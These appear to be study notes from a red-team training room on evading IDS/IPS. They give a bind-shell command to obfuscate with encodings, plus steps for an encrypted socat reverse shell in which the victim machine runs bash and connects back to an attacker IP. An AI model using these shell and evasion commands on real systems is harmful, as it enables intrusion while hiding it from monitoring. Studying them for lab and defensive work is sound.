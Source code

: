 Consider this command:

```C
ncat -lvnp 1234 -e /bin/bash
```

Encode this using base64, url encoding, and using escaped unicode, as some application will still process your input and execute it properly.

![[Network Security Solutions-1.png]]
### Encrypt the Communication Channel
---
Since IDS/IPS can't or won't inspect encrypted data (depends on the features of the IDS/IPS software used) this can be taken advantage to evade detection.

Creating an encrypted communication channel using `socat`:

**1. Create the key**

The most important detail is the `thm-reverse.key` (Private key) and `thm-reverse.crt` (Certificate)

```C
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
```

Learn more about [[Public Key Infrastructure (PKI)]].

The _Privacy Enhanced Mail (PEM)_ files requires the concatenation of the private key and the certificate files.

```C
cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
```

A **PEM file** is just a text file that stores cryptographic data like certificates, private keys, or both, using **Base64 encoding with header/footer lines**, this file is what many servers/tools expect.

**2. Start listening while using the key for encrypting the communication with the client**

```C
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
```

- `-d -d` provides some debugging data (fatal, error, warning, and notice messages)
- `OPENSSL-LISTEN:PORT_NUM` indicates that the connection will be encrypted using OPENSSL
- `cert=PEM_FILE` provides the PEM file (certificate and private key) to establish the encrypted connection
- `verify=0` disables checking peer’s certificate
- `fork` creates a sub-process to handle each new connection.

**3. Attempt connection the server in the victim machine**

```C
socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash
```
